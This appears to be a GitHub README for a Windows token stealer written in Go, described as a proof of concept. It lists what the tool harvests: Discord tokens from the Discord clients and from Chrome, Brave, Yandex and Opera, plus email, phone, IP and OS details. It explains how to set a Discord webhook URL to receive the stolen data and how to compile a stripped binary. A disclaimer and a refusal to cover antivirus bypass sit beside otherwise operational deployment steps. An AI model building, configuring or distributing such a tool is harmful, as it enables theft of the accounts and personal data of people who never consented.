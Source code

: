 # POC - Discord Grabber in Golang

*Encrypting the Discord token on Windows using WinApi specific functions and AES GCM is not necessarily useless, as it does provide some level of
 protection against unauthorized access to the token. However, it is important to note that this approach is not foolproof and there is 
always a risk of the token being compromised.* 

*Therefore, while encrypting the token is a step in the right direction, it is important for Discord to continue to evaluate and improve their security measures to better protect user data. This may involve finding alternative methods of protecting the token.*

The code on this current branch is designed for Windows Systems. If you wish to use it for Linux & MacOS, please checkout the [Unix](https://github.com/faceslog/discord-grabber-go/tree/unix) branch

### Liability Disclaimer !

The use of this software on any device that is not your own is highly discouraged.
You need to obtain explicit permission from the owner if you intend to use this program in an environment you don't own,
any illicit installation will likely be prosecuted by the jurisdiction the (ab)use occurs in.
Creators shall not be liable for any indirect, incidental, special, consequential or punitive damages, or any loss of profits
or revenue, whether incurred directly or indirectly, or any loss of data, use, goodwill, or other intangible losses,
resulting from:
- (i) your access to this resource and/or inability to access this resource
- (ii) any conduct or content of any third party referenced by this resource, including without limitation, any defamatory, offensive or illegal conduct or other users or third parties
- (iii) any content obtained from this resource


### Features:

- Send Informations via discord webhook
- Checks for Discord (Canary, PTB) tokens, Google Chrome, Brave Browser, Yandex Browser and Opera Browser
- Checks whether the token(s) is valid before sending it to avoid disabled tokens
- Check whether or not discord account has nitro
- Get Also: Email, Phone, Account display name, CPU Arch, OS, IP

### Usage:

Create a Discord Webhook (https://support.discord.com/hc/articles/228383668-Intro-to-Webhooks) <br/>
Install Golang: https://golang.org/dl

Simply change these values in the `main.go` file:
```go
const (
	WebhookUrl       = "YOUR_WEBHOOK_URL"
	WebhookUsername  = "YOUR_WEBHOOK_NAME" // Webhook name
	Debug = false // For a console output
)
```

Then simply compile the `main.go win.go` files !
```sh
# This command will keep debug info in your exe
go build main.go win.go
# By default, go build combines symbol and debug info with binary files. 
# However, you can remove the symbol and debug info with 
go build -ldflags "-s -w" main.go win.go
```
I won't provide help on how to bypass AVs as it's not the purpose of this project.

